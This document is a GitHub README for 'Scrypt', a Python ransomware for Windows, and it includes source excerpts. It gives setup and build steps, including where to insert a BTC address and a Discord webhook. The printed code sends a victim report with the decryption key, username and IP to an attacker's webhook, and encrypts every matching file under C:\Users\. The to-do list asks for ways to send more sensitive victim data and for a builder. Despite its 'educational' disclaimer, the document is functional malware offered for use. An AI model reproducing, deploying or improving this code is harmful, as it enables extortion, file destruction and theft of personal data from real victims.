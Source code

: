 <div>
  <h1 align="center">Scrypt</h1>
  <h3 align="center">Ransomware with Discord Integration</h3>
</div>

 <p align="center">
  <img width="660" height="300" src="https://github.com/backslash/ScryptRansomware/blob/master/images/ransomware.jpg?raw=true">
</p>

  Scrypt is a windows Ransomware with discord integration. After trying to find a reason to procrastinate a friend gave me the idea to speedrun making ransomware, so that I did. After around 5 hours I finished up Scrypt and this is the repo containing the full source code to the ransomware, the decrypter along with some notes on how it operates. What sets Scrypt aside from all the other Ransomware clones out there is its utilization of discord webhooks to send user reports.
  
<h3 align="center">Scrypt Attack Vectors</h4>
  Once you are hit by Scrypt you will instantly realize you are a victim. A giant screen warning the user (as shown below) will take up your entire screen, once you hit the continue button the window will become invisble so it can continue to run in the background. While I had wanted to use chacha20 for file encryption I ended up sticking to AES-128 due to my limited time.
 <p align="center">
  <img width="660" height="300" src="https://github.com/backslash/ScryptRansomware/blob/master/images/lockscreen.png?raw=true">
</p>
  
  Another feature of Scrypt is its easy report feature which gives you a detailed report of your victim, I used myself below as an example for how the data looks, this can be used to easily match client ID's.
 <p align="center">
  <img width="460" height="300" src="https://github.com/backslash/ScryptRansomware/blob/master/images/report.PNG?raw=true">
</p>

  Scrypt will also leave behind a nice little readme on the desktop just in case the client forgets any of his information. This will contain information such as your btc address, client, id and detailed steps to recovering there files. 
   <p align="center">
  <img width="460" height="300" src="https://github.com/backslash/ScryptRansomware/blob/master/images/note.PNG?raw=true">
</p>

<h3 align="center">Setup</h4>

  Setup is straight forward, run the following commands as listed here:
```
  pip install pyqt5
  pip install requests
  pip install pyinstaller
  pip install pycrypto
```
  Once you have all the dependencies installed go to your python file and modify this to include your information:
```
btcAdd = ""
email = ""
discordWebhook = ""
```
  After you have fully set this up head over to command prompt and run the following commands:
```
  cd "your folder path to scrypt"
```
  then run
```
  pyinstaller --onefile "Scrypt.py"
```
  Wait for it to finish building and thats about it for setup.  

<h3 align="center">Understanding the Code</h4>
Scrypt starts off with the flashing screen to grab the users attention however in the background the ransomware itself runs, it starts of by sending a message which just gives a detailed report of our user along with the unique id and seeded password.

`````
	def sendMessage(self):
		try:
			self.getUserDetails() #trys to retrieve information about the user
		except:
			pass
		data = {
				"embeds": [
					{
					   "title": "**__Victim Report__:**", #uses said datain the report 
						"description": f"```css\nUSERID: {self.randomId}``` ```css\nKEY: {self.encryptionPass}``` ```css\nUSERNAME: {self.userName}``` ```css\nIP: {self.ip}```",
						"color": 13959168,
						"thumbnail": {
						"url": "https://www.pngkit.com/png/full/168-1680567_69137579-pentagram-with-demon-baphomet-satanic-goat.png"
					},
						"author": {
							"name": "Scrypt",
							"icon_url": "https://i.imgur.com/F3j7z5K.png"
							}
					}
				]
			}
		r = requests.post(discordWebhook, json=data) #makes a post request to our webhook with given data
`````

 Next starts the file encryption, our ransomware goes through every file in the provided folder path, in this case being `C:\\Users\\` and then proceeds to get handles for each filepath which will be passed as an argument for when we want to encrypt our files.  
```
	def run(self):
		self.sendMessage() #---------| Calls our function to send our user report via post request to our webhook.
		for root, directories, files in os.walk(self.filePath): #We are now itterating through our directories
			for filename in files: #now we are getting all of our files
				filepath = os.path.join(root, filename) 
				for base in fileTypes:
					if base in filepath:
						threading.Thread(target=self.encryptFile, args=(filepath,)).start() #multithreading our file encryption 
		
		self.readMe() #Creating our read me document
```
Each file is opened in read binary mode which is then encrypted with our pycrypto library with proper padding, then we flush the file contents and write our new file. 
  
```
	def encryptFile(self, file):
		try:
			with open(file, 'rb') as infile:
				content = self.crypto.encrypt(pad(infile.read(),32))
				with open(file, "wb") as outfile:
					outfile.write(content)
					outfile.close()
		except:
			pass
```
<h3 align="center">To Do List</h4>
  Hello fellow developers, if you are interested in contributing to Scrypt I will happily accept pushes for new features or improvements to the current version, this was made in 5 hours so its got a few things that could for sure use improvement:
  - [ ] Improve File Handeling (Change Extenstion not hard to do os.rename())
  - [ ] Give the decrypter a user interface.
  - [ ] Speed up the encryption proccess
  - [ ] Send more data/sensitive data via webhook.  
  - [ ] Create a builder for Scrypt for easier generation
  - [ ] Change encryption to salsa20 or chacha20  

  
  
<h3 align="center">Legal Notice</h4>
  This is illegal if you use this without the consent of others, I am not accountable for anything you get into, this was just a speedrun to demonstrate how ransomware is made/looks. This is 100% educational. Please do not misuse this tool.

